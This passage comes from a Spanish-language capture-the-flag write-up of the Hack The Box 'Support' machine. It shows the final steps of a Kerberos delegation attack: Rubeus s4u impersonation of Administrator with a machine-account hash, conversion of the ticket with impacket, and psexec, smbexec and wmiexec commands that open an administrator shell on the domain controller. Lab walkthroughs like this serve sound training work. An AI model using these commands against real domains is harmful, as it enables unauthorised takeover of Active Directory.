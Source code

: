6️⃣ Generaremos un **Service Ticket** el cual, como su nombre indica, permite el acceso a los servicios de una aplicación, que en este caso será a los archivos del **sistema** del **DC**.

> Las extensiones S4U (Service for User) permiten a un servicio obtenr un ticket en Kerberos en nombre de un usuario.

```powershell
.\Rubeus.exe s4u /user:esteesminuevopc$ /rc4:dc2d7e8252c461ee9dc0cf6b7766ad36 /impersonateuser:Administrator /msdsspn:cifs/dc.support.htb /ptt
```

Si todo va bien debemos ver 3 tickets y el último será el que nos permitirá actuar como otro usuario:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/support/484windows_supportPS_rubeusEXE_ticketParaActuarComoAdmin.png" style="width: 100%;"/>

7️⃣ Copiamos el ticket (toda la cadena en **base64**) y creamos un archivo en nuestro sistema con ese contenido, después le quitamos los espacios y saltos de línea, para guardarlo en otro archivo donde reamente tendremos el ticket ya decodeado:

```bash
cat ticket_b64 | tr -d ' ' | tr -d '\n' | base64 -d > ticket.kirbi
```

8️⃣ Emplearemos algunas herramientas del repositorio [impacket](https://github.com/SecureAuthCorp/impacket), en este caso [ticketConverter.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketConverter.py), con ella debemos convertirlo a `.ccache`, ya que nuestro sistema no soporta **kirbi**.

```bash
ticketConverter.py ticket.kirbi ticket.ccache
```

9️⃣ Seteamos la variable de entorno `KRB5CCNAME` que es la que guarda los tickets usados para realizar autenticaciones mediante kerberos.

```bash
export KRB5CCNAME=ticket.ccache
```

🔟 Generamos una sesión en el sistema mediante [psexex.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py), [wmiexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py) o [smbexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py).

```bash
psexec.py -k -no-pass support.htb/Administrator@dc.support.htb -dc-ip 10.10.11.174
smbexec.py -k -no-pass support.htb/Administrator@dc.support.htb -dc-ip 10.10.11.174
wmiexec.py -k -no-pass support.htb/Administrator@dc.support.htb -dc-ip 10.10.11.174
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/support/484google_meme_toystory_quePasaDespues.png" style="width: 50%;"/>

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/support/484google_meme_toystory_lagartijaTonta.png" style="width: 50%;"/>

ajsdlkfjlñaksdfjklajsd, sí sabrás:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/support/484bash_administratorCMD.png" style="width: 80%;"/>
